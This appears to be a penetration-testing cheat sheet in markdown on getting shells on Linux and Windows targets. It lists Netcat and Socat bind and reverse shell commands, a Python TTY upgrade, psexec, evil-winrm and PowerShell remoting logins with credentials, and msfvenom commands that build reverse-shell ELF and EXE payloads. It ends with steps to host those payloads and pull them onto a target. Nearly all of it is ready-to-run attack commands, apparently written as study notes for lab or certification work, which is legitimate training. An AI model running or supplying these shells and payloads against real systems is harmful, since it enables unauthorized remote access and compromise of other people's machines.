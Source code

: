 # Linux Shell Breakout 
* spawn a /bin/bash using Python
* https://docs.python.org/3/library/pty.html

```bash
python -c 'import pty;pty.spawn("/bin/bash")';
export TERM=xterm-256color
alias ll='clear ; ls -lasht --color=auto'
# CRTL + Z [backgroud process]
stty raw -echo; fg ; reset
stty column 200 rows 200
```

# Linux Shells

* Connect to a TCP/UDP port with Netcat
* Listen on a TCP/UDP port with Netcat
* Gain Remote Access to a host with Netcat
* Execute a Netcat bind shell
* Execute a Netcat reverse shell
* Netcat vs. Socat
* Socat reverse shells
* SSH shells


## Connect to a TCP/UDP port with Netcat
* -n don't do DNS resolution
* -v verbose

`nc -nv 10.11.0.22 110`

## Listen on a TCP/UDP port with Netcat
* -l start listener
* -p port

`nc -nlvp 4444`

## Execute a Netcat bind shell
* server bind a command shell on a specific port
* -e provide stdin, stout and stderr of a shell

`nc -nlvp 4444 -e cmd.exe`

## Execute a Netcat reverse shell
* client send a command shell to a **host listening on a port**.

```bash
nc -nlvp 4444
nc -nv host 4444 -e /bin/bash
```

## Netcat vs. Socat
* https://nc110.sourceforge.io/
* http://www.dest-unreach.org/socat/doc/socat.html
* -d verbosity
* **socat connect requires a '-' as first address**, 

```bash
echo "Socat Connect"
nc <remote> 80
socat - TCP4:<remote>:80
```

```bash
echo "Socat Listener"
sudo nc -lvp localhost 443
sudo socat TCP4-LISTEN:443 STDOUT
sudo socat TCP4-LISTEN:443 EXEC:/bin/bash
```

```bash
echo "Reverse Shell"
nc -nlvp 4444
nc -nv host 4444 -e /bin/bash
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

## SSH shells
* -p remote port
* -o stricthostkeychecking=no **avoid this option in real world**
* Online Wargame for beginners https://overthewire.org/wargames/bandit/
* Use the config which is read ~/.ssh/config before /etc/ssh/ssh_config
* https://linuxize.com/post/using-the-ssh-config-file/

ssh kali@localhost -p 22
ssh -o stricthostkeychecking=no webadmin@192.168.0.2 -p 2220

```bash
kali@kali:~/.ssh$ cat config
Host webadmin
        HostName webadmin@192.168.0.2
        User webadmin
        Port 22

kali@kali:~/.ssh$ ssh webadmin
```

# Windows Shells
* Remote shells with PowerShell
* Remote shells with psexec
* Remote shells with evil-winrm
* Remote shells with rdesktop

## Remote shells with PowerShell
* run powerShell as admin
* enable Enable-PSRemoting
* add IP to trustedhosts using wsman
* invoke a remote command or a remote shell
* https://learn.microsoft.com/en-us/powershell/module/microsoft.wsman.management/about/about_wsman_provider?view=powershell-7.2#setting-the-value-of-items-in-the--wsman-drive
* https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works

```powershell
Enable-PSRemoting
Set-Item wsman:\localhost\client\trustedhosts $IP
```

```powershell
Invoke-Command -ComputerName $IP -Credential $USER -ScriptBlock { systeminfo } 
Enter-PSSession -ComputerName $IP -Credential $USER
```

### Setup the local computer with a listener for any IP on HTTP
* Set-WSManQuickConfig: Configures the local computer for remote management. It starts a service opens the firewall.
* https://learn.microsoft.com/en-us/powershell/module/microsoft.wsman.management/about/about_ws-management_cmdlets?view=powershell-7.2

```powershell
Set-WSManQuickConfig
Test-WSMan 
```

## Remote shells with psexec
* download PSExec
* extract it to System32
* create a psexec interactive session -i
* https://learn.microsoft.com/en-us/sysinternals/downloads/psexec

```powershell
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PSTools.zip"
Expand-Archive -Path .\PSTools.zip -DestinationPath C:\Windows\System32\
$RHOST="target IP"
psexec -accepteula
psexec "\\$ROST" -u user -p password -i cmd
psexec "\\$ROST" -u user -p password -i powershell
```

Remote shells with evil-winrm
* https://github.com/Hackplayers/evil-winrm
* -P, --port PORT                  default 5985
* -H, --hash HASH                  NTHash
* -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
* -e, --executables EXES_PATH      C# executables local path
* --spn SPN_PREFIX                 SPN prefix for Kerberos auth (default HTTP)


```bash
./evil-winrm.rb -i IP -u user -p password
```

## Remote shell with rdesktop
* Connect remote desktop from linux

```bash
rdesktop -u user -p password $RHOST
```

# Custom Shell using MSFvenom
* https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom
* https://www.offsec.com/metasploit-unleashed/msfvenom/
* staged payloads require Metasploit framework 
* let's use stageless payload instead
* -p use payload
* -f use format
* -a use arch
* -o output
* https://github.com/rsmudge/metasploit-loader/blob/master/src/main.c


```bash
msfvenom -h
msfvenom --list payloads
msfvenom -l platforms
msfvenom -l formats
msfvenom --platform linux -l payloads | grep x86
msfvenom --platform windows -l payloads | grep x64
```

```bash
msfvenom -p linux/x86/shell_reverse_tcp --list-options
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f elf -o reverse_shell.elf
msfvenom -p linux/x86/windows/shell_reverse_tcp --list-options
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o reverse_shell.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o reverse_shell.exe
```

## Download Shell
```bash
sudo python -m http.server 80
```
```bash
$ wget http://IP/reverse_shell.elf
```
```powershell
PS> Invoke-WebRequest -Uri http://IP/reverse_shell.exe -OutFile reverse_shell.exe
```

